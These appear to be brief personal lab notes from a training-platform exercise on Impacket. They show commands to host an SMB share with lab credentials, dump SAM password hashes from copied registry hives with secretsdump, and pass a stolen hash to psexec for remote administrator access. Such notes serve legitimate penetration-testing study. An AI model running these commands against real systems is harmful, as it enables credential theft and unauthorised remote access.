 # Using Impacket

tags: #impacket #smb #smbserver #secretsdump #psexec #passthehash

Use impacket to create a file share on linux for temporary use on parrot linux
```bash
impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share
```

Use impacket secretsdump to dump the SAM hashes from the system.hive and the registry.hive

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

Use impacket psexec to pass the hash gathered for remote access
```bash
impacket-psexec -hashes <hash for the account with the colon seperating them> administrator@<ip address>
```